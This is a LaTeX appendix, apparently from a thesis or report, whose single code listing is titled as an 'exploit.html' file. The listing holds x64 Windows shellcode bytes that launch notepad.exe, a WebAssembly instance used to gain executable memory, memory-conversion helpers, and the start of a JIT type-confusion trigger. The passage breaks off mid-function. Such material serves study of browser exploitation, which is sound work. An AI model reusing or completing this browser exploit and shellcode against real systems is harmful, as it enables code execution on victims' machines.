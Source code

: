 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
		0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
		0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
		0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
		0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
		0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
		0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
		0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
		0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
		0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
		0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
		0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
		0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
		0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
		0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
		0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
		0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
		0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
		0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
		0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
		0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
		0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
		0x65, 0x00];
		var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
		0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
		130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
		0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
		6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
		0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
		97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
		132, 128, 128, 128, 0, 0, 65, 42, 11]);
		var wasmModule = new WebAssembly.Module(wasmCode);
		var wasmInstance = new WebAssembly.Instance(wasmModule);
		var main = wasmInstance.exports.main;
		var bf = new ArrayBuffer(8);
		var bfView = new DataView(bf);
		function fLow(f) {
			bfView.setFloat64(0, f, true);
			return (bfView.getUint32(0, true));
		}
		function fHi(f) {
			bfView.setFloat64(0, f, true);
			return (bfView.getUint32(4, true))
		}
		function i2f(low, hi) {
			bfView.setUint32(0, low, true);
			bfView.setUint32(4, hi, true);
			return bfView.getFloat64(0, true);
		}
		function f2big(f) {
			bfView.setFloat64(0, f, true);
			return bfView.getBigUint64(0, true);
		}
		function big2f(b) {
			bfView.setBigUint64(0, b, true);
			return bfView.getFloat64(0, true);
		}
		class LeakArrayBuffer extends ArrayBuffer {
			constructor(size) {
				super(size);
				this.slot = 0xb33f;
			}
		}
		function foo(a) {
			let x = -1;
			if (a) x = 0xFFFFFFFF;
			var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));

\end{lstlisting}
\end{appendices}
\end{document}
